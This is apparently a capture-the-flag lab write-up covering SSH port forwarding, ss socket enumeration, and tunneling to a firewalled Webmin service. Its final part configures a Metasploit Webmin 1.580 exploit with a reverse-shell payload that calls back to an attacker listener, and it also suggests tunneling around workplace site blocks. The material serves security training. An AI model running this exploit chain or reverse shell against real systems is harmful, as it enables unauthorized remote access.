

Exposing services with reverse SSH tunnels
Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.
-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do
ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.
-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse. We will use a tool called
ss to investigate sockets running on a host.
If we run
ss -tulpn it will tell us what socket connections are running
| Argument | Description |
|---|
| -t | Display TCP sockets |
| -u | Display UDP sockets |
| -l | Displays only listening sockets |
| -p | Shows the process using the socket |
| -n | Doesn't resolve service names |
agent47@gamezone:~$ ss -tulpn
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port
udp UNCONN 0 0 *:68 *:*
udp UNCONN 0 0 *:10000 *:*
tcp LISTEN 0 128 *:22 *:*
tcp LISTEN 0 80 127.0.0.1:3306 *:*
tcp LISTEN 0 128 *:10000 *:*
tcp LISTEN 0 128 :::22 :::*
tcp LISTEN 0 128 :::80 :::*
We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!
From our local machine, run
ssh -L 10000:localhost:10000 <username>@<ip>
Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.
Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.
msfconsole
search webmin 1.580
set payload cmd/unix/reverse
Name Current Setting Required Description [47/256]
---- --------------- -------- -----------
PASSWORD videogamer124 yes Webmin Password
Proxies no A proxy chain of format type:host:port
[,type:host:port][...]
RHOSTS 10.10.198.217 yes The target host(s), see https://docs.m
etasploit.com/docs/using-metasploit/ba
sics/using-metasploit.html
RPORT 10000 yes The target port (TCP)
SSL true yes Use SSL
USERNAME agent47 yes Webmin Username
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.8.112.175 yes The listen address (an interface may be s
pecified)
LPORT 1234 yes The listen port
ROOT !!